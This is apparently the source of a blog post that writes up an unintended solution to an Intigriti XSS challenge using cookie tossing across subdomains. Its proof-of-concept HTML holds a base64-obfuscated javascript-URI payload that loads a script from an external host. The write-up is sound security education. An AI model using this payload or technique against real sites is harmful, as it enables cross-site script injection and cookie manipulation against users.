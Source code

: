 ```yaml
---
layout: post
date: 2021-08-23 00:00
title: Inti XSS unintended solution
summary: cookies and milk
---
```


Unintended way to solve the challenge

## Two things you need to Know (Gotcha's):
- Any subdomain can set cookie for all subdomains of it's parent domain.
- If two cookie with same name exists, the cookie with closest path is prefered.

##Steps:
1. Using any previous XSS on intigritii challenges create a cookie named *username* set it's **domain** attribute as
	**intigriti.io** and **path** attribute as **/challenge/cooking.html**

2. Redirect to *https://challenge-0821.intigriti.io/*


## POC code:
 ```HTML
	<!DOCTYPE html>
	<html>
	  <body>
	    <script>
	      location = "https://javascript.challenge-0121.intigriti.io/?r=j%26%23x41;vascript:eval(atob(`eD1kb2N1bWVudC5jcmVhdGVFbGVtZW50KCJzY3JpcHQiKTt4LnNyYz0iaHR0cHM6Ly9jeWJlcnBvc3NpYmxlYXhpcy5jeXBoM3IxMzM3LnJlcGwuY28vc2NyaXB0LmpzIjtkb2N1bWVudC5ib2R5LmFwcGVuZENoaWxkKHgpOw==`));//%0aid=origin";
	    </script>
	  </body>
	</html>
 ```

## Resource
https://speakerdeck.com/filedescriptor/the-cookie-monster-in-your-browsers
